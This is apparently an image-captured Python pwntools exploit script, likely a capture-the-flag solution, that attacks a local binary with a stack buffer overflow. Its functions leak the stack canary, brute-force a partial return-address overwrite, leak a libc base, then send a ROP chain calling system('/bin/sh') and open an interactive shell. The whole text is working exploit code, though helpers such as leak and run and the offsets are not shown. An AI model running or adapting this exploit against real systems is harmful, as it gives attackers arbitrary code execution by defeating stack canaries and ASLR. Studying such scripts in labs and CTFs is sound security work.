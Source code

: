 ```python
def payload1(canary):
    fixed = b"\x90"
    high = [p8(i) for i in range(0x0f,0x10f,0x10)]

    return flat(
        b"b"*offset_canary,
        canary,
        b"B"*offset_ret,
        fixed + random.choice(high)
    )

def payload2(canary , libc):
    libcbase = libc - offset_start
    lib = ELF("/lib/x86_64-linux-gnu/libc.so.6") 
    lib.address = libcbase

    rop = ROP(lib)

    return flat(
        b"A" * offset_canary,
        canary,
        b"A" * 8,

        rop.ret.address,
        rop.rdi.address,
        
        next(lib.search(b"/bin/sh\x00")),
        lib.symbols["system"]
    )

def attack(p):
    canary = leak(p,offset_canary)
    log.success(f"Canary: {hex(canary)}")

    p.send(payload1(canary))

    try:
        if b"Welcome to" in p.recvuntil(b"Welcome to"):
            leak_base = leak(p,0x68)
            log.success(f"libc leak: {hex(leak_base-offset_start)}")
            
            p.send(payload2(canary,leak_base))
            p.interactive()
            print("HMMMMMMMM")
            return 1
    except Exception as e:
        log.failure(f"try again {e}")
    return False


def main():
    while True:
        p = run()
        try:
            if attack(p):
                break
        except Exception as e:
            log.warning(f"fail: {e}")
        finally:
            p.close()
 
if __name__ == "__main__":
    main()       
```